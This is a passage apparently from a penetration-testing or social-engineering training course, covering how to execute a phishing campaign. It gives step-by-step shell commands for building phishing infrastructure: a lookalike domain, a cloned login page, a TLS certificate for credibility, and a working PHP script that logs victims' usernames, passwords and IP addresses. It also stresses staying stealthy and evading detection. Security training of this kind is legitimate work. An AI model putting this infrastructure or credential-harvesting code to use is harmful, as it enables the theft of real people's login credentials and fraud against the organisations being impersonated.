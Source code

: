 4. **Execution and Monitoring**:
   - Staged rollout to avoid detection
   - Real-time monitoring of responses
   - Adjusting approach based on results
   - Documenting successful compromises
   - Maintaining stealth throughout campaign

```bash
# Example: Setting up a phishing infrastructure

# Step 1: Register a lookalike domain
# Example: register examp1e.com instead of example.com

# Step 2: Set up email server with proper SPF, DKIM, and DMARC
# Configure Postfix and DKIM signing

# Step 3: Clone a legitimate website
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://example.com

# Step 4: Modify the login form to capture credentials
# Edit the HTML to send credentials to your collection server

# Step 5: Set up SSL certificate for credibility
certbot --nginx -d examp1e.com

# Step 6: Create tracking for campaign analytics
# Add tracking pixels and unique identifiers

# Step 7: Set up credential collection server
# Example using a simple PHP script to collect and log credentials:

cat > collect.php << 'EOF'
<?php
$file = 'credentials.txt';
$username = $_POST['username'];
$password = $_POST['password'];
$ip = $_SERVER['REMOTE_ADDR'];
$date = date('Y-m-d H:i:s');
$data = "Date: $date\nIP: $ip\nUsername: $username\nPassword: $password\n\n";
file_put_contents($file, $data, FILE_APPEND);
header('Location: https://example.com/login-error.html');
?>
EOF
```

> **Hands-on Exercise:** Design a phishing campaign targeting a fictional organization. Create a convincing pretext, design an email template, and outline how you would set up the infrastructure. Consider what psychological triggers you would use and how you would evade detection. Document your approach and explain how organizations could defend against your specific campaign.

## 3. Physical Security Assessment
